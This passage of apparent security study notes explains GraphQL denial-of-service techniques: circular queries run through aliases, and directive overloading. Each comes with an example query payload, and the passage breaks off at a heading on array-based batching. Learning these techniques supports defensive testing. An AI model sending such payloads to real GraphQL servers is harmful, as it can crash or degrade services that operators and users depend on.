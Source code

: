 ```

- Since aliases are part of the GraphQL specification, any other vulnerability you identify can be combined with aliases. 
- The query below shows how we can run a circular query with an alias.
	```js
		query {   
			q1:pastes {     
				owner {       
					pastes {         
						owner {           
							name         
						}       
					}     
				}   
			}   
			
			q2:pastes {     
				owner {       
					pastes {         
					owner {           
						name         
					}       
				}     
			}   
		}
	```
- The disadvantage of aliases is that they allow aliasing only queries of the same root type. You can alias queries only with queries, or mutations only with mutations, but not queries and mutations together.

### Directive Overloading

- While directives are part of the GraphQL specification, the specification does not discuss security controls that should be implemented for directives.
- However, nonexistent queries can be supplied many times. There are effectively no limits to the number of nonexistent directives a client can supply in most of the popular GraphQL implementations today.
- The attack is quite simple: stuff directives in multiple parts of a query and send it to the server, as shown below: 
```js
	query {    
		pastes {       
			title @aa@aa@aa@aa # add as many directives as possible       
			content @aa@aa@aa@aa    
		} 
	}
```
- The impact on the server can vary depending on its hardware specifications.  
- A GraphQL server might crash (due to database memory errors) or service performance degradation.

### Array-Based Query Batching
